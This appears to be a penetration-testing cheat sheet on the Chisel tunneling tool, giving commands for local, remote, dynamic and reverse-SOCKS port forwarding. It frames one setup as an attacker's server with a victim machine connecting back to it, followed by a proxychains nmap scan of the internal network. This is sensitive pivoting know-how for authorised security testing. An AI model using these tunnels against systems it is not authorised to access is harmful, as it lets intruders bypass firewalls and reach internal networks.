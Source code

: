 **Chisel** is a TCP/UDP tunnel over HTTP that enables secure port forwarding, often used in penetration testing to bypass firewalls and NAT.

- You can download the Chisel last releases here: [link](https://github.com/jpillora/chisel/releases)
- Good explanation of how to use it: [explanation](https://deephacking.tech/pivoting-con-chisel/)

## Local Port Forwarding

Allows forwarding traffic from a local port to a specific port on the target machine through the Chisel server.

**Target machine**
```bash
./chisel server -p <port>
```
**Local machine**
```bash
chisel client <chisel server address>:<chisel server port> <local port to open>:<address to point to>:<port to point to on the target address>
```

## Remote Port Forwarding 

Allows opening a port on the **target machine** (via the Chisel client) that points to a service on the **local machine**.

**Local machine**
```bash
chisel server -p 9999 --reverse
```
**Target machine**
```bash
./chisel client <local_machine_ip>:<local_listener_port> R:<remote_port_to_open>:127.0.0.1:<target_machine_port_to_open>
```

## SOCKS Proxy in Reverse Mode

The following command creates a **proxy SOCKS on the Chisel server**, routing traffic through the client (victim machine). This sets up a SOCKS proxy on the **Chisel server**, which routes traffic from the server through the client. It is particularly useful when the server (attacker) needs access to the client’s internal network or services.

- **Server (Attacker Machine):** Ensure the server is running in reverse mode:
```
./chisel server -p 9999 --reverse
```
- **Client (Victim Machine):** Execute the following command on the client.    
```
./chisel client <server_ip>:<server_port> R:socks
```
- **Use ProxyChains with a tool**. Now you can use `proxychains` to route the traffic of any command through that proxy SOCKS.
```
proxychains nmap -sT -p 80,443 <target_ip>
```

## Dynamic Port Forwarding
Creates a local SOCKS proxy that dynamically forwards traffic to any destination through the Chisel server.

```bash
./chisel client <server_ip>:<port> dynamic :<local_port>
```

